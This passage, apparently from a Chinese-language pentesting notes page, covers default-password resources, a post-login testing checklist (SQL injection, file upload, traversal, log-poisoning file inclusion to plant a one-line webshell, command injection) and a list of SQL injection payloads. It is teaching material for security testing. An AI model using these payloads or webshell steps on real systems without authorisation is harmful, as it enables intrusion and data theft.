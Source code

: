 这个还是单独拿出来说说，有时候会有意想不到的惊喜然后说不定就进去了。

常见的默认密码可以来这里找：https://forum.ywhack.com/password.php?page=1

或者这里：https://www.shentoushi.top/av/

再或者这里：https://github.com/ihebski/DefaultCreds-cheat-sheet

常见的弱口令可以试试我自己弄的这个字典生成工具，包括字典：https://github.com/qingchenhh/dicer



## 1.4 正常测试（有啥功能测啥）

1. 登录后的SQL注入。

2. 修改头像或者能上传文件的地方进行文件上传测试。

3. 能读取文件或包含文件的地方进行文件读取，目录穿越，文件包含（包括伪协议测试）。

4. 能直接通过修改模板等插入代码的，尝试插入一句话木马。

5. 能备份文件的，尝试通过备份来备份一句话木马。

6. 有日志记录可以结合文件包含的，可以通过在地址栏中访问构造的一句话木马，在包含日志。

7. 命令执行类功能的地方，比如ping之类的，测试一下命令执行。

8. 类似ftp功能的地方，可以尝试一下目录穿越，看看能不能穿越到没有权限的目录从而读取文件。（总之就是根据功能点进行测试对应的漏洞。）

9. 根据cms或者系统找对应的历史nday进行测试。

10. 越权测试。

11. 任意用户密码修改测试。

12. (接口)未授权访问测试（ swagger接口可以使用这个工具：https://github.com/qingchenhh/swagger-exp ）。

    

## 1.5 SQL注入测试payload（可以的话挂xray测吧）

常用测试语句（**插入或者修改功能处不要使用or语句测试！！！**）：

```
-1

'

and true=true --+

&& true=true #

or 656323=656323 --+

and sleep(3) #

waitfor delay '0:0:5'--

%df%27and true --+

1鎈'"\(

'and/**/extractvalue(1,concat(char(126),md5(56423645)))and'                      #c1077208a8ff487fae85e7d0b5293504

'and(select*from(select+sleep(3))a/**/union/**/select+1)='
```
